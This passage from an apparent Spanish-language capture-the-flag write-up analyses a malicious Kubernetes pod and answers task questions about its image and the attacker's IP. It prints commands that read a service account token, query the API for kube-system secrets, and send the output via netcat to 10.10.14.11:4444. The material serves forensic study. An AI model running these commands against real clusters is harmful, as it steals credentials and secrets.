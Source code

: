 ```bash
cat /run/secrets/kubernetes.io/serviceaccount/token | {
  read TOKEN;
  curl -k -v \
    -H "Authorization: Bearer $TOKEN" \
    -H "Content-Type: application/json" \
    https://10.43.191.212:8443/api/v1/namespaces/kube-system/secrets;
}
```

1. **Lee** el token de la cuenta de servicio desde el archivo donde Kubernetes lo monta.  
2. **Guarda** el contenido en la variable `TOKEN`.  
3. **Hace una petición `curl` a la API interna** (la IP del servicio Kubernetes) para listar todos los secretos (`/api/v1/namespaces/kube-system/secrets`), usando ese token en la cabecera `Authorization: Bearer`.

### d) Exfiltración con Netcat

```bash
… | nc -nv 10.10.14.11 4444
```

Toma la salida completa de la petición (que incluye todos los secretos en JSON, codificados en Base64) y la envía con `nc` (netcat) al atacante, cuyo servidor escucha en la IP `10.10.14.11` y puerto `4444`.

### e) `sleep 100000`
Mantiene el contenedor vivo para no levantar sospechas inmediatas al terminar la ejecución.

---
**task 6**

¿Cuál es la imagen que utiliza el atacante para crear el pod malicioso?

Ya vimos que es `Alpine`, y se le instala la herramienta `curl`

---
**task 7**

¿Cuál es la IP del atacante?

Ya vimos que los datos son exfiltrados por `netcat` hacia la ip `10.10.14.11` por el puerto 4444
